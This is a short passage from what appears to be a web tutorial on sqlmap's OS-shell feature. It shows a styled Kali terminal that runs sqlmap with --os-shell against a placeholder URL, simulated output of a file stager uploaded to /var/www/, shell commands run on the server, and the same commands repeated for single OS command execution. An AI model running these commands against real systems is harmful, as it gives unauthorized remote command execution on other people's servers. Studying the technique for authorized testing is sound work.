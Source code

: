[OS Shell Access]{style="color: #ccc; margin-left: 10px;"}
:::

::: terminal-content
<div>

[root@kali]{style="color: #ff0080;"}[:\~#]{style="color: #00ff41;"}
python sqlmap.py -u \"http://target.com/page?id=1\" \--os-shell

</div>

::: {style="color: #ffff00; margin-top: 5px;"}
\[INFO\] testing if the target URL content is stable
:::

::: {style="color: #ffff00;"}
\[INFO\] target URL content is stable
:::

::: {style="color: #ffff00;"}
\[INFO\] fingerprinting the back-end DBMS operating system
:::

::: {style="color: #ffff00;"}
\[INFO\] the back-end DBMS operating system is Linux
:::

::: {style="color: #ffff00;"}
\[INFO\] trying to upload the file stager on \'/var/www/\' via LIMIT
\'LINES TERMINATED BY\' method
:::

::: {style="color: #00ff41; margin-top: 10px;"}
os-shell\> whoami
:::

::: {style="color: #ccc;"}
www-data
:::

::: {style="color: #00ff41;"}
os-shell\> uname -a
:::

::: {style="color: #ccc;"}
Linux target 4.15.0-142-generic #146-Ubuntu SMP x86_64 GNU/Linux
:::
:::
:::

::: code-block
    # Get OS shell
    python sqlmap.py -u "http://target.com/page?id=1" --os-shell

    # Execute single OS command
    python sqlmap.py -u "http://target.com/page?id=1" --os-cmd="whoami"
